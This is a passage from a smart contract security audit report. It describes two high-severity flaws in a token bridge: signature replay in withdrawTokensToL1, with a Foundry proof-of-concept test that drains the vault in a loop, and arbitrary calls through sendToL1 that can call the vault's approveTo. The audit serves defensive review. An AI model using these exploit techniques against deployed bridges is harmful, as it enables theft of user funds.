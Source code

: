 As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.
